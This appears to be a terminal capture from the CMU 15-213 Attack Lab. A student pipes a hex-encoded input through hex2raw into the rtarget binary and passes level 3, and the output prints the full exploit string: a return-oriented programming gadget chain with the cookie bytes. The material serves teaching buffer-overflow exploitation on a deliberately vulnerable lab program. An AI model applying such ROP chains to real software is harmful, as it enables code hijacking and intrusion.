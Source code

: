 ```shell
niebelungen@ubuntu:~/Desktop/target1$ ./hex2raw < test.txt | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:rtarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 06 1A 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 AB 19 40 00 00 00 00 00 48 00 00 00 00 00 00 00 DD 19 40 00 00 00 00 00 69 1A 40 00 00 00 00 00 13 1A 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 
```

